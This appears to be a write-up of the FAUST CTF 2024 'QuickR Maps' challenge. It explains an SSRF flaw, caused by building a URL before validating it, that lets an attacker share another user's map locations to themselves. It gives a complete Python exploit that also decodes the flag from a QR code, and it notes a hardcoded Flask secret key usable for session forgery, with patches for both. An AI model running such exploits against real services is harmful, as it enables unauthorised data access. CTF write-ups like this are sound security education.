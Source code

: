 ```yaml
---
title: "FAUST CTF 2024 - QuickR Maps Writeup"
date: 2024-10-11T06:00:00+02:00
author: "Hackrrr"
tags: [ "writeups" ]
---
```

> We participated in FAUST CTF 2024 under the pseudonym "TeamCalabria"
(unfortunately stolen on CTFTime by some CTFTime point hoarders).
Our member _Hackrrr_ managed to first blood the "QuickR Maps" challenge.

QuickR Maps service allows users to store and share locations on map. There are two instances hidden behind one frontend/proxy - public and private. Public instance shows all stored locations to everyone, private instace shows only locations accessible to you (that are either yours locations or locations explicitly shared with you).

## SSRF
Application had only one "frontend" which then handled to which instance/server will actually go. This is based on `server` GET parameter. Original logic for handling and validating looks like this (logic is basically same for every endpoint):
```py
@main.get('/api/locations')
def get_locations():
    server_host = request.args.get('server')
    server_url = f"http://{server_host}:4242/location/"
    u = urlparse(server_url)
    if u.hostname not in REGISTERED_PRIV_SERVERS + REGISTERED_PUB_SERVERS:
        flash("Server not supported", "danger")
        return redirect(url_for('main.add_location'))
    # ...
    requests.get(server_url, timeout=TIMEOUT)
    # ...
```

This is quite obviously flawed - first URL is constructed from user supplied value (`server` parameter) and then this "new" URL is validated/parsed to check if it is one of allowed backend instances/servers. This allows us (= attackers) to send basically any request to any backed server if we supply "correct" value to `server` paramters (e.g. `private_loc:4242/some/backend/endpoint&x=` becomes `http://private_loc:4242/some/backend/endpoint` (assuming that `x` is ignored by backend server (which is))).

We can use this ability to share locations from another user to us on private instance:
```py
session.post(
    f"http://[{host}]:4241/api/share",
    data={
        "server": f"private_loc:4242/share/{TARGET_USER}?receiver={OUR_USER_ID}&x=",
        "receiver": OUR_USER_ID,
    },
    allow_redirects=False,
)
```

*Note: Same/Similar could be done also on other (frontend) endpoints (e.g. bulk add).*

Patch is *really quite simple*, just don't use `urlparse()` at all and check `server_host` validity directly. This patch needs to be done for every endpoint.

## Getting the flag
Vulnerability was (at least for me) actually the easy part... Extracting the flag was the hard/annoying part. One would thought that flag would be stored in descripton of some location but no. We were little confused when we found out that there is no flag in descriptions of stolen locations (from checker/flagID user). So we had a look at map of stolen locations and saw one dense area of points... and when we zoomed in we realized that it is a QR code (it requires a bit of cleanup by showing only oldest locations/points).

Fist flag we submitted manully just by taking our mobile phone, scanning it from screen and sending it to game server (sorry team Spain) just as sanity check that this is actully thing we need to do. And then I spent not exactly small amount of time trying to parse QR code in Pyhton (this was so painful, I tried several different libraries for QR code parsing until I found something that worked somehow):
```py
import zxingcpp
import numpy
from PIL import Image

# Get the locations (assuming we already somehow got valid `session`)
locs = session.get(f"http://[{host}]:4241/api/locations?server=private_loc").json()

# Keep only oldest locations
timestamp = min(x["timestamp"] for x in locs)
filtered = [x for x in locs if x["timestamp"] == timestamp]

# Creating a "grid" so we can than translate lat/long to x/y
lats = set()
longs = set()
for x in filtered:
    lats.add(x["lat"])
    longs.add(x["lon"])
lats = sorted(lats)
longs = sorted(longs)

# Create QR code image
img = Image.new(mode="RGB", size=(len(lats), len(longs)), color=(255, 255, 255))
for x in filtered:
    img.putpixel((lats.index(x["lat"]), longs.index(x["lon"])), (0, 0, 0))

# Parse QR code
# This was the annoying part :)
cv_img = numpy.array(img.convert("RGB"))[:, :, ::-1].copy()
for x in zxingcpp.read_barcodes(cv_img):
    print(x.text)
```

And so final exploit looks like this:
```py
#!/usr/bin/env python3

import json
import random
import string
import sys

import numpy
import requests
import zxingcpp
from PIL import Image

host = ...
flag_id = ... # = Target username

def randstr(
    length: int, extra: str = "", chars: str = string.ascii_letters + string.digits
) -> str:
    return "".join(random.choices(chars + extra, k=length))

# Random "checker looking" username
user = f"striker_guardian_{randstr(32, chars="0123456789abcdef")}"
password = randstr(32, chars="0123456789abcdef")

# Register
session = requests.Session()
session.post(
    f"http://[{host}]:4241/register",
    data={"agent_alias": user, "password": password},
    allow_redirects=False,
)
# Login
r = session.post(
    f"http://[{host}]:4241/login",
    data={"agent_alias": user, "password": password},
)
# Getting our user ID
user_id = r.text.split('<div class="agent-id">ID: ', 1)[1].split("</div>", 1)[0]

# Exploit
session.post(
    f"http://[{host}]:4241/api/share",
    data={
        "server": f"private_loc:4242/share/{flag_id}?receiver={user_id}&x=",
        "receiver": user_id,
    },
    allow_redirects=False,
)

# Getting the flag
locs = session.get(f"http://[{host}]:4241/api/locations?server=private_loc").json()
timestamp = min(x["timestamp"] for x in locs)
filtered = [x for x in locs if x["timestamp"] == timestamp]

lats = set()
longs = set()
for x in filtered:
    lats.add(x["lat"])
    longs.add(x["lon"])
lats = sorted(lats)
longs = sorted(longs)

img = Image.new(mode="RGB", size=(len(lats), len(longs)), color=(255, 255, 255))
for x in filtered:
    img.putpixel((lats.index(x["lat"]), longs.index(x["lon"])), (0, 0, 0))

cv_img = numpy.array(img.convert("RGB"))[:, :, ::-1].copy()
for x in zxingcpp.read_barcodes(cv_img):
    print(x.text)
```

## Other way to the flag
There is also different "vulnerability". There is one specific line in `__init__.py`:
```py
app.config['SECRET_KEY'] = 'secret-key-goes-here'
```

We realized this like in half of whole A/D (and I'm being very optimistic here with this time) and so... well... yeah, ~~we~~ I'm dumb. :)

Anyway, you could use this key to then forge session as target user and just get its locations. Unfortunatelly we couldn't make it work as we stumbled upon some weird `flask-login` "internals"/problems that we weren't able to solve. Patch is trivial, just change key to something else.
